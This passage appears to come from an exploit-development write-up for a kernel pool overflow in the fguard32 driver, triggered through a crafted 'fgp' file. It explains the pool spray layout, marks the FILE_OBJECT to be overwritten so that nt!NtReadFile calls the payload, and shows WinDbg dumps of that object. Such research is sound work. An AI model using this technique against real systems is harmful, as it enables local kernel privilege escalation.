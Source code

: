 Exit:
    return r;
}
{% endhighlight %}
Now let's move to the content of the fgp file. The first object we build is the payload, the code that will be called by nt!NtReadFile. If spraying was successfull we expect to get the following memory layout just before the overflow (which happens at fguard32+B4C8 for 32bit driver):
```text
kd> !pool @edi
Pool page 864e9d44 region is Nonpaged pool
 864e9000 size:   b8 previous size:    0  (Allocated)  File (Protected)
 864e90b8 size:  1a0 previous size:   b8  (Free)       ....
 864e9258 size:   b8 previous size:  1a0  (Allocated)  File (Protected)
 864e9310 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e93c8 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9480 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9538 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e95f0 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e96a8 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9760 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9818 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e98d0 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9988 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9a40 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9af8 size:   30 previous size:   b8  (Free)       File
*864e9b28 size:  2b0 previous size:   30  (Allocated) *None              ;PROTECTED_DIR_DESCRIPTOR buffer
		Pooltag None : call to ExAllocatePool
 864e9dd8 size:   b8 previous size:  2b0  (Allocated)  File (Protected)  ;This FILE_OBJECT will be overwitten
 864e9e90 size:   b8 previous size:   b8  (Allocated)  File (Protected)
 864e9f48 size:   b8 previous size:   b8  (Allocated)  File (Protected)
```
The content of the file object before the overflow:
```text
kd> db 865228d0 LB8
865228d0  56 00 17 04 46 69 6c e5-00 04 00 00 f8 00 00 00  V...Fil.........
865228e0  00 00 00 00 00 00 00 00-48 58 96 85 01 00 00 00  ........HX......
865228f0  01 00 00 00 01 00 00 00-00 00 00 00 1c 00 0c 40  ...............@
86522900  40 c0 8c 85 00 00 00 00-05 00 80 00 18 12 c0 84  @...............
86522910  48 a9 bf 84 f8 39 48 a2-90 5b 53 a2 a0 ed 7e 85  H....9H..[S...~.
86522920  00 00 00 00 00 00 00 00-b8 68 d8 85 00 00 01 00  .........h......
86522930  00 01 01 01 42 00 04 00-14 00 14 00 08 ce 7a 8f  ....B.........z.
86522940  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
86522950  00 00 00 00 01 00 04 00-00 00 00 00 5c 29 52 86  ............\)R.
86522960  5c 29 52 86 00 00 04 00-01 00 00 00 6c 29 52 86  \)R.........l)R.
86522970  6c 29 52 86 00 00 00 00-00 00 00 00 7c 29 52 86  l)R.........|)R.
86522980  7c 29 52 86 00 00 00 00                          |)R.....
```
```text
kd> dt _object_header 865228f0
nt!_OBJECT_HEADER
   +0x000 PointerCount     : 0n1
   +0x004 HandleCount      : 0n1
   +0x004 NextToFree       : 0x00000001 Void
   +0x008 Lock             : _EX_PUSH_LOCK
   +0x00c TypeIndex        : 0x1c ''
   +0x00d TraceFlags       : 0 ''
   +0x00e InfoMask         : 0xc ''
   +0x00f Flags            : 0x40 '@'
   +0x010 ObjectCreateInfo : 0x858cc040 _OBJECT_CREATE_INFORMATION
   +0x010 QuotaBlockCharged : 0x858cc040 Void
   +0x014 SecurityDescriptor : (null) 
   +0x018 Body             : _QUAD
```